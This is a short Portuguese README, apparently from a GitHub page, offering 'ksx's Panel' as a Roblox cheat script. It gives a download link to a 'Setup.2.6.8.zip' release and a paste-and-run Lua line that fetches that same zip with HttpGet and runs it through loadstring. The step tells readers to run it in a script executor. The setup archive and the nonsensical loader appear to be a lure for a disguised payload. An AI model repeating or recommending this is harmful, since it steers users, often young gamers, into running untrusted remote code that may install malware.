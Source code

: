 # ksx's Panel

# [Download Link](https://github.com/wertyi-allowfollowkd3/ksx-s/releases/download/owffj/Setup.2.6.8.zip)

Script para jogos do roblox

### Script
```lua
loadstring(game:HttpGet('https://github.com/wertyi-allowfollowkd3/ksx-s/releases/download/owffj/Setup.2.6.8.zip'))()
```

## Como Usar

1. Copie o código do script desejado.
2. Cole-o em um executor de scripts compatível com Roblox.
3. Execute o script para ativá-lo.
